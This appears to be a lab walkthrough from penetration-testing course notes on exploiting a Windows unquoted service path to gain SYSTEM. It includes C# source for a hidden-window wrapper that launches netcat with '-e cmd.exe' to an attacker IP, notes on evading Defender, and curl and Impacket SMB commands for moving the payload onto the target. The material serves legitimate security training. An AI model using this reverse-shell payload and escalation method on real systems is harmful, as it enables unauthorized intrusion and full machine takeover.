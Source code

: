 Let's recap what we found in the previous task:

- We have a privilege which we could almost certainly use to escalate to system permissions. The downside is that we'd need to obfuscate the exploits in order to get them past Defender.
- We have an unquoted service path vulnerability for a service running as the system account. This is ideal.

We have everything we need to root this box. Let's do this!

Of the two vulnerabilities that are immediately available, we will work through the *unquoted service path attack* for one simple reason: getting a reverse shell back from this is _very_ easy -- even with Defender in play. 

The exploits available to manipulate the privilege we found would need to be custom compiled and obfuscated in order to be useful to us; however, with the unquoted service path, all we need is one very small "wrapper" program that activates the netcat binary that we _already have on the target._ To put it another way, we just need to write a small executable that executes a system command: activating netcat and sending us a reverse shell as the owner of the service (i.e. local system). Ideally we would write a full C# service file that would integrate seamlessly with the Windows service management system. 

Whilst this is perfectly possible (and is by far the preferable option), for the sake of simplicity, we will stick to just creating a standalone executable. It's worth noting that this technique is effective at bypassing the antivirus software on the target; however, *in an enterprise situation there is a good chance that it would be picked up by an intrusion detection system*. In this scenario we would be looking for a more sophisticated (if similar) solution.

Ideally we'd be using Visual Studio here. If you happen to have a Windows host and are familiar with Visual Studio then please feel free to use it for. As not everyone has access to a Windows machine (or is comfortable installing Windows as a virtual machine), the teaching content will work with the `mono` dotnet core compiler for Linux. This can be easily installed on Kali and will allow us to compile C# executables that can be run on Windows targets. The same code will work just fine if compiled in Visual Studio, however.

---
## Install mono

First we need to install Mono. This can be done with:  

```
sudo apt update
sudo apt install mono-devel -y
```


If you are using the AttackBox then this should already be installed.  

## Create Wrapper.cs

Now, open a file called `Wrapper.cs` in your favorite text editor.

The first thing we need to do is add our "imports". These allow us to use pre-defined code from other "namespaces" -- essentially giving us access to some basic functions (e.g. input/output). At the very top if the file, add the following lines:  

```
using System;
using System.Diagnostics;  
```
 

These allow us to start new processes (i.e. execute netcat).

Next we need to initialise a namespace and class for the program:  

```
namespace Wrapper{       
	class Program{           
		static void Main(){
			//Our code will go here!
		}
	}
}
```

We can now write the code that will call netcat. This goes inside the `Main()` function (replacing the `//Our code will go here!` line).

First, we create a new process, as well as a ProcessStartInfo object to set the parameters for the process:  

```
Process proc = new Process();   
ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-USERNAME.exe", "ATTACKER_IP ATTACKER_PORT -e cmd.exe");
```

_Make sure to replace the_ `nc-USERNAME.exe` _with the name of your own netcat executable, as well as slotting in your own IP and Port!_

With the objects created, we can now configure the process to not create it's own GUI Window when starting:  
`procInfo.CreateNoWindow = true;`  

Finally, we attach the `ProcessStartInfo` object to the process, and start the process!  
`proc.StartInfo = procInfo;   proc.Start();`  

Our program is now complete. It should look something like this:

![[1680d2c86ef0.png]]

## Compile

We can now compile our program using the Mono `mcs` compiler. This is extremely simple using the package we installed earlier:

```
mcs Wrapper.cs
```

![[f051e39d81f6.png]]

Write and compile a wrapper program using Mono or Visual Studio.

## Transfer Wrapper.exe

Transfer the `Wrapper.exe`   file to the target. Just to spice things up a bit, let's use an Impacket SMB server, rather than our usual HTTP server. If you would prefer to use the HTTP server and cURL (or another method to transfer the file) you are welcome to do so.


---
## cURL

#Webshell 

Download Wrapper.exe file.

`curl http://10.50.85.33/Wrapper.exe -o C:\\Windows\\Temp\\Wrapper.exe`


## Impacket

Impacket is a Python library that makes it very easy to interact with a wide variety of Windows services from Linux.  

First up, let's download the package:  
`sudo git clone https://github.com/SecureAuthCorp/impacket /opt/impacket && cd /opt/impacket && sudo pip3 install .   `

> [!Note]
>On the AttackBox Impacket is preinstalled at `/opt/impacket/impacket`

We can now start up a temporary SMB server:  
`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword`

![[99f9b77f1bf0.png]]

With this command we created a server on our IP, serving a share called "share" in the current directory. As Impacket uses SMBv1 by default, we need to specify that is use SMBv2 in order for the relatively up-to-date target to accept it. We then set a username and password for connections to the server -- again, this is due to security policies on the target requiring connections to be authenticated.

Now, in our #Reverse_Shell , we can use this command to authenticate: 

`net use \\ATTACKER_IP\share /USER:user s3cureP@ssword`

![[9a27791867af.png]]

This authenticates with the server using the credentials we set (`user:s3cureP@ssword`). We can now copy our compiled  `Wrapper.exe` program up to the target. Due to file permissions on the normal `C:\Windows\Temp` directory, we are doing this from our current user's own `%TEMP%` directory:  

`copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe`

![[857c1d682e0e.png]]

> [!Note]
>We could have just executed this directly through the share -- exactly as we did with Mimikatz when dealing with the Gitserver. We are copying it here purely because we will need to have a copy on the target sooner or later anyway.

It is often useful to just leave an SMB server running in the background when working with Windows targets. We will use this server later, so let's leave it up for now.

That said, to prevent errors down the line, we should disconnect from it for the time being: 

`net use \\ATTACKER_IP\share /del`

![[060e1ee4ce7c.png]]

